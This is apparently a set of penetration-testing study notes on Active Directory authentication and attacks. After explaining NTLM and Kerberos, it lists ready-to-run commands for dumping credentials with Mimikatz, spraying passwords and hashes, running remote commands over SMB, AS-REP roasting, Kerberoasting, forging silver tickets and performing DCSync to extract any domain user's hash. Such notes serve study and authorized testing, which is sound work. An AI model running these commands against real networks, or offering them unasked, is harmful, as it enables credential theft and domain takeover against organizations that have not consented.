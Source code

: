 ```yaml
---
layout: blank
---
```


### Understanding Authentication
**NTLM**
- Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server
- Steps are:
	- Calculate NTLM Hash
	- Send username to application server
	- App server sends nonce
	- Client encrypts nonce using their hash and sends both to app server
	- App server sends client response, username, and nonce to the DC (user's hash unknown)
	- DC encrypts nonce with NTLM hash (already known) of the user and compares to response
	- If valid, DC approves authentication

**Kerberos**
- Adopted from Kerberos v5 from MIT, used as primary auth method since 2003
- Uses a ticket system, DC acts as a Key Distribution Center (KDC)
- Rather than authenticating against the application, clients get a ticket from the KDC
- Steps:
	- Client sends Authentication Server Request (AS-REQ) to the DC
		- This contains a timestamp encrypted using the hash derived from the user's username and password
	- DC receives request and looks up the password hash of the user in the `ntds.dit` file, using it to decrypt the timestamp
	- If the decryption is successful and the timestamp is unique, auth is granted
	- DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)
		- Session key can be decrypted with user hash and reused
		- TGT contains user and domain info, IP address of client, timestamp, and a session key
			- The TGT is encrypted using the NTLM hash of the krbtgt user
			- TGT is valid for 10 hours by default and is automatically renewed while session remains active
	- Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC
	- The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request
	- The KDC then performs the following checks:
		- The TGT has a valid timestamp
		- The username from the TGS-REQ matches the username of the TGT
		- The client IP address coincides with the TGT IP address
	- If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:
		- Name of the service access granted for
		- 2nd session key to be used between the client and service
		- Service ticket containing the username, group memberships, and 2nd session key
	- Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself
	- The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted

**Cached Credentials**
- Password hashes stored in Local Security Authority Subsystem Service (LSASS)
- Basically just use Mimikatz as before
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sekurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
	- `sekurlsa::tickets` will show tickets stored in memory
		- We want to steal TGT more than a TGS for overall service access (rather than just one)
- Public Key Infrastructure (PKI)
	- Part of the Active Directory Certificate Service (AD CS), which implements PKI to exchange digital certs between authenticated users and trusted resources
	- Certificate Authority (CA) servers can grant/revoke certificates
		- The private keys used are usually non-exportable, but Mimikatz's `crypto::capi` and `crypto::cng` can take care of that

### AD Password Attacks

**Password Spraying**
- Avoiding lockout - `net accounts` will show authentication lockout information
- Using [script enumeration](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1) 
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
- SMB password spraying
	- Use `crackmapexec`
		- `crackmapexec smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
			- Can also pass single username/password
		- This sprays passwords against a single IP's SMB share
		- This will also show whether the user is an administrator
	- SMB hash spraying
		- `crackmapexec smb {IP} -u {users.txt} -H {hashes.txt}`
	- Crackmapexec can also run comands via SMB:
		- `nxc smb {IP} -u {username} -p {password} -X 'powershell -e ...`
- Obtaining TGTs
	- Use [kerbrute](https://github.com/ropnop/kerbrute/releases/) - `.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt "{password}"`
	- AS-REP Roasting without credentials, described below
- WinRM
	- Indicated by port 5985/5986
	- `evil-winrm -i {IP} -u {domain_user} -p {password}`
	- Also accepts NTLM hashes `evil-winrm -i {IP} -u {user} -H {hash}`
- RPC:
	- Indicated by port 135,593
	- Can get an RPC shell with `rpcclient -U {username} {IP}`
		- `enumdomusers` can get the domain users from within RPC, which we can then check again for preauth
		- `queryuser {username}` to get user properties (passwords could be in descriptions)
			- Can also just `querydispinfo`

**AS-REP Roasting**
- Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user
- Performing hash cracking after receiving the AS-REP from the KDC
- Performed with `impacket-GetNPUsers` on kali side
	- `impacket-GetNPUsers -dc-ip {dc} -request -outputfile hashes.asreproast {domain}/{username}` (alongside password)
		- With users.txt: `impacket-GetNPUsers {domain}/ -no-pass -usersfile users.txt -dc-ip {IP} | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
	- Hashes can be cracked with Hashcat's 18200
- Performed with [`Rubeus`](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) on Windows side
	- `.\Rubeus.exe asreproast /nowrap`
- This can also be done without a password to find users who don't have Kerberos pre-auth
	- `impacket-GetNPUsers -dc-ip {IP} {domain}/`
	- These users don't require a password to grab the TGT hash

**Kerberoasting**
- Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket
- Can use `impacket-GetUserSPNs` if remote with creds
	- `impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request`
- Can use `Rubeus` again if local
	- `.\Rubeus.exe kerberoast /outfile:hash.txt`
- Can crack with Hashcat's 13100 mode

**Silver Tickets**
- Forging our own service tickets via a password hash that should only be known to the DC and service account
	- Basically forging a ticket using a hash that tells the service we have more permissions than we actually do
	- This requires that Privileged Account Certificate (PAC) be disabled, which it often is
- To create the ticket, we need:
	- SPN password hash - can use `sekurlsa::logonpasswords` on machine with established session with application (usually(?) current machine)
	- Domain SID - `whoami /user` minus the last number (user RID)
	- Target SPN - basically just the DNS host name and the protocol (like HTTP)
- Performed using `mimikatz`
	- Don't escalate privileges to `NT Authority\System`
	- `kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{dnshostname} /service:{service_protocol(http)} /rc4:{NTLM_hash} /user:{any_domain_user}`
		- `ptt` allows us to inject forged ticket into memory of target machine
- Then, we should be able to access the service with the following:
	- `iwr -UseDefaultCredentials {protocol}://{dnshostname}`

**Domain Controller Synchronization**
- Sometimes multiple DCs across an environment for redundancy
- These DCs use Directory Replication Service (DRS) to synchronize
- DCs receiving requests for updates don't check if the request came from a known DC and only verify that the SID has the correct privileges
	- This means that we just need a user with the correct privileges
	- *Required*: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set 
		- Owned by Domain Admins, Enterprise Admins, and Administrators by default
- If we have `WriteDACL` on the domain via a group, we can give ourselves the necessary permissions
- Performed with `mimikatz` on domain-joined machine or `impacket-secretsdump` on kali
	- This gives us a way to get the hash of any domain user
	- `lsadump::dcsync /user:{domain}\{user}` 
- Can also be performed with `impacket-secretsdump`
	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
